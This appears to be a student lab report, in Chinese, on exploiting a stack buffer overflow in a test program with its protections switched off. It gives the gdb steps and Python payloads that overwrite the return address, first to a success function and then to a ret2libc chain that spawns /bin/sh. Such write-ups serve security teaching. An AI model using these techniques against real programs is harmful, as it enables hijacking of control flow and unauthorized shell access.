


# 栈溢出实验

2018011365 张鹤潇

### 实验环境

WSL2 Ubuntu 20.04

### 关键步骤和源码

控制目标程序的编译选项，关闭 stack canary 和 PIE，关闭 OS 的 ASLR.

对目标程序进行反汇编，可知 `gets` 缓冲区与 `vulnerable` 返回地址相距 0x18 bytes. 只要在这中间填充字符串，覆盖函数返回地址，就能劫持程序控制流。

将返回地址覆盖为 `success` 函数的地址，

```python
success_addr = 0x08048456 
payload = '0' * 0x18 + p32(success_addr) 
```

要使受害程序获取 shell，需要用 libc `system` 函数地址覆盖返回地址，并为 `system` 函数填充 "/bin/sh" 参数，这个字符串也存在于 libc 库中，可以用 gdb 来搜索它的位置。

```shell
# gdb main
p system
p exit
info proc map
find 0xf7dd5000,0xf7fbe000,"/bin/sh"
# 在 libc 中搜索目标
```

最终攻击脚本如下

 ```python
 system_addr = 0xf7e29e10	# vulnerable 返回到 system
 exit_addr = 0xf7e1d060		# system 的返回地址，设置为 exit 函数
 bin_str_addr = 0xf7f6888f	# system 的参数，指向字符串 "/bin/sh"
 payload = '0' * 0x18 + p32(system_addr) + p32(exit_addr) + p32(bin_str_addr)
 ```

### 实验结果

实验第一部分，触发 `success` 函数：



第二部分，调用 `shell`： 



